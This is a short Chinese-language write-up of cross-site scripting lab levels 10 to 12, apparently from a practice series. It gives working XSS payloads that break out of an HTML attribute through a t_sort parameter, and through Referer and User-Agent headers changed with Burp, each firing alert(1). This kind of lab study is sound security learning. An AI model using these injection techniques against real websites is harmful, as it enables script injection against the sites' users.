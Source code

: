 

最终payload

```
?t_link=&t_history=&t_sort="%20onclick="alert(1)"%20type=""
```





## 11.



还是一样选择进行尝试

```
?t_link=1&t_history=2&t_ref=4&t_sort=3
```

发现t_sort进行传值



```
?t_link=1&t_history=2&t_ref=4&t_sort="><script>alert(1)</script><"
```

发现会进行转码

同理尝试

```
?t_link=1&t_history=2&t_ref=4&t_sort="%20onclick="alert(1)"%20type=""
```

发现""被转义了

```
<input name="t_sort"  value="&quot; onclick=&quot;alert(1)&quot; type=&quot;&quot;" type="hidden">
```



看wp，思考发现要从http下手



bp进行抓包

```
Referer: "type="text" autofocus onfocus="alert(1)"
```





## 12.

直接加到最后面即可

```
User-Agent: " type="text" autofocus onfocus="alert(1)"
```
